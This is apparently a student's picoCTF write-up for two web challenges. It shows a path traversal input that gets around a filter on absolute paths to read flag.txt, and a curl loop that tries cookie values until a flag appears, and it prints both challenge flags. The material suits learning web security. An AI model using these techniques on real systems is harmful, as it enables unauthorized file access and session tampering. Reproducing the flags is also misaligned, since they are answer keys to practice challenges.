 # Forbidden Paths

**Flag:**  `picoCTF{7h3_p47h_70_5ucc355_6db46514}`

How you approached the challenge:

  

- 3 pieces information are given in the question, first is the path of the flag , second is the path of the current directory and third is the fact that we cannot use absolute paths.  

- The search bar acts like the `cat` command, so if i put in something like `/flag.txt` in the search bar, it should give me the flag, but it won't because it is filtering out the absolute paths.
- So i need to go back to parent directories using `..` operator and then when i get inside `/` , i read `flag.txt`
```
../../../../flag.txt
```
Using this fetched me the flag.

What you learned through solving this challenge:

1. Using `..` operator to access any fi;e in any parent directory

# Cookies

  

**Flag:**  `picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}`


How you approached the challenge:
- First i noticed that on the website, i noticed that there is only one cookie by the name of `name` & value `-1` on `http://mercury.picoctf.net:54219/` , is i search for any value , say `hello world`, response comes from `http://mercury.picoctf.net:54219/search` which has an extra `session` cookie with some value.
![hello world search](https://github.com/loded-diper/cryptonite_tp_2/blob/main/Images/hello_world.png)

- When we search for `snickerdoodle`,  we are redirected to `http://mercury.picoctf.net:54219/check` with a text saying `I love snickerdoodle cookies!`, and this page has a cookie with name `name` and value `0`.
![snickerdoodle search](https://github.com/loded-diper/cryptonite_tp_2/blob/main/Images/snickerdoodle.png)

- If i try to change the value of the cookie manually to say `1`, then the page reloads and shows `I love chocolate chip cookies!`
```
document.cookie = "name=1; path=/";
```
![Cookie: name=1](https://github.com/loded-diper/cryptonite_tp_2/blob/main/Images/chocolate_chip.png)
When i change the value to 2, it shows `I love oatmeal raisin cookies!`.

- So i created a shell script using `CURL` which sends `GET` requests to `http://mercury.picoctf.net:54219/check` modifying the value of cookie each time & greps `picoCTF` if found.
```bash
vishad@VISHAD:~$ vim script.sh

#!/bin/bash
for i in {0..100}
do
    curl -s -X GET "http://mercury.picoctf.net:54219/check" -b "name=$i" | grep "picoCTF" && echo "Found at $i"
done
```
On running this script i got the flag at `i=18`
```bash
vishad@VISHAD:~$ bash script.sh
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p>
Found at 18
```
I also manually checked it at the website by modifying the cookie there & got the flag.
```
document.cookie = "name=18; path=/";
``` 
![Cookie: name=18](https://github.com/loded-diper/cryptonite_tp_2/blob/main/Images/cookie_18.png)


What you learned through solving this challenge:

1. Modifying cookies using console

2. Using loops in scripts


Other incorrect methods you tried:

- Tried to search names & values of `name` and `session` cookie.

- Tried to search it in `.js` file
  

References
- https://www.geeksforgeeks.org/bash-scripting-for-loop/

- https://reqbin.com/req/c-bjcj04uw/curl-send-cookies-example

- etc.